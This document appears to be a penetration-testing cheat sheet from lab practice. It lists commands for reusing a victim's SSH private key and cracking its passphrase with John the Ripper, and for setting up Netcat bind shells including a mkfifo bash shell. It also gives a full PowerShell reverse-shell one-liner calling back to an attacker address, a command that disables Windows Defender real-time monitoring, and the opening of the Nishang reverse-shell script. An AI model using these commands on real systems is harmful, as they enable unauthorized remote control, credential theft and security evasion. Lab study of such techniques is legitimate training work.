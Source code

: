 #### Host
- `nano id_rsa`
- (Copy from id_rsa victim)
- `chmod 400 id_rsa`
- `ssh -i id_rsa matt@10.10.11.136`

#### PASSPHRASE: 
```
python3 /usr/share/john/ssh2john.py id_rsa > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
`john --show hash.txt`


# Bind Shells
## Server - Target starting Netcat listener
- `nc -lvnp 7777`

## Client - Attack box connecting to target
- `nc -nv 10.129.41.200 7777`

## Establishing a Basic Bind Shell with Netcat
### Server - Binding a Bash shell to the TCP session
- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f`

### Client - Connecting to bind shell on target
- `nc -nv 10.129.41.200 7777`

# Reverse Shells
## Server - attack box
- `sudo nc -lvnp 443`

## Client - target (WINDOWS)
- `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.60',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

### Disable AV
- `Set-MpPreference -DisableRealtimeMonitoring $true`

```ps1
function Invoke-PowerShellTcp 
{ 
<#
.SYNOPSIS
Nishang script which can be used for Reverse or Bind interactive PowerShell from a target. 
.DESCRIPTION
This script is able to connect to a standard Netcat listening on a port when using the -Reverse switch. 
Also, a standard Netcat can connect to this script Bind to a specific port.
The script is derived from Powerfun written by Ben Turner & Dave Hardy
.PARAMETER IPAddress
The IP address to connect to when using the -Reverse switch.
.PARAMETER Port
```
